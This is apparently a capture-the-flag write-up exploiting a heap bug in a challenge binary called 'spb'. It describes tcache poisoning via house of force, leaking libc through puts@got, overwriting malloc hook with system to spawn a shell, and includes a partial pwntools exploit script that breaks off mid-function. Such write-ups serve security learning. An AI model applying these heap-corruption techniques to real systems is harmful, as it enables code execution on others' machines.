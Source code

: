 0x40 bin -> writeable area -> 0x0

We now have full control over what the 0x40 bin will think is a tcache chunk. Let's write the malloc hook address to it.

0x40 bin -> writeable area -> malloc hook

Choose a song of size 0x30, will be served from 0x40 bin. Now malloc hook is at top of tcache! Choose a song of size 0x30 again, and we'll get an arbitrary write at malloc hook. Let's write system to malloc hook.

Ok, so now we want to call malloc on a /bin/sh pointer. How? We need to input size as a number.

Malloc will call malloc hook on the size.

What we can do is send a size number that is actually a disguised /bin/sh pointer. Malloc will then call system on this number, actually calling system("/bin/sh")

NOTE: The final step didn't work locally for me, but it works remotely.
Summarised plan:
1. House of force to get heap chunk pointing to tcache_perthread_struct
2. Put count of 2 inside of 0x20 bin. Set the top of the bin to point to puts@got for example
3. Put count of 1 inside 0x30 bin and 2 inside the 0x40 bin. Point them towards the same place, some writeable segment inside of the binary.
3. Choose a song with length 0. It'll allocate in the 0x20 bin but also fgets 0 will give us no input so no sigsev should occur
4. Top of tcache will have pointer to puts@GLIBC
5. Choose another song with length 0. Returned pointer should be puts@GLIBC. Again, fgets 0 gives no input, no sigsev
6. Sing song, that should print the libc pointer
7.  Create a 0x20 length song, will be allocated at the writeable segment. It will ALSO be at the top of the 0x40 tcache, allowing for poisoning. ( see step 3). Set next pointer to malloc hook
8. Create 0x30 length song. Create another. This will be at malloc hook, write system to it
9. Choose a song where the song title size represents the pointer to /bin/sh in libc

The below exploit script does everything up to and including overwriting malloc hook with system. It also prints the /bin/sh pointer as decimal to you, then opens an interactive prompt. From there, manually choose a song, input the number, and a shell will be popped.

We can cat `/pwn/flag.txt` to get the flag.

Script:
```python
#!/usr/bin/env python3

from pwn import *
PARTYSIZE = 0
e = ELF("spb")
libc = ELF("libc-2.27.so")
context.binary = e
def chooseSong(length, title=b'',dodata=True):
    p.sendlineafter('> ', str(1))
    p.sendlineafter('> ', str(length))
    if dodata:
        p.sendlineafter('> ', title)
def getDrink(member, drink):
    p.sendlineafter('> ', str(2))
    p.sendlineafter('> ', str(member))
    p.sendlineafter('> ', str(drink))

def singSong():
    p.sendlineafter('> ', str(3))
    p.recvuntil('0x')
    ptr = int(p.recvuntil(' '), 16)
    return ptr
def twoscomplement(num):
  if num >= 0:
    return num
```
